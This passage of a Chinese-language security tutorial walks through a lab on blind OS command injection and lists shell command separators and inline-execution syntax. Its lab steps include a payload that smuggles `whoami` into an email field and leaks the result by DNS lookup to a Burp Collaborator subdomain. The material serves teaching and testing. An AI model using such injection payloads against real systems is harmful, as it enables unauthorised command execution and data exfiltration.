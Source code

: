 3. 点击“复制到剪贴板”以将唯一的Burp Collaborator有效载荷复制到剪贴板。

4. 修改`email`参数，将其更改为类似于以下内容，但将指示的位置插入您的Burp Collaborator子域：

    ```
    email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
    ```

5. 返回Collaborator选项卡，并点击“立即轮询”。您应该能看到一些由应用程序由于您的有效载荷而发起的DNS交互。如果未看到任何交互列出，请等待几秒钟再试一次，因为服务器端命令是异步执行的。

6. 观察到您的命令输出出现在交互的子域中，并且可以在Collaborator选项卡内查看此内容。查找的完整域名显示在交互的描述选项卡中。

7. 要完成实验，请输入当前用户的名称。



## 命令注入分隔符

您可以使用多个 shell 元字符来执行操作系统命令注入攻击。



多个字符充当命令分隔符，允许命令链式执行。以下命令分隔符在 Windows 和基于 Unix 的系统上均有效：

- `&`
- `&&`
- `|`
- `||`



以下命令分隔符仅在基于 Unix 的系统上有效：

- `;`
- 换行符 (`0x0a` 或 `\n`)



在基于 Unix 的系统上，您还可以使用反引号或美元符号在原始命令中执行内联注入命令：

- ``` `injected command` ```
- `$(`injected command `)`

```
echo "Current user is: `whoami`"
echo "Current user is: $(whoami)"
```



不同的 shell 元字符具有细微的行为差异，这些差异会影响它们在特定场景下的效果。例如：

**`&`**: 用于分隔多个命令，允许它们并行执行。

```
command1 & command2
```

- 这里，`command1` 和 `command2` 会同时运行。



**`&&`**: 用于分隔多个命令，但只有前一个命令成功时，后一个命令才会执行。
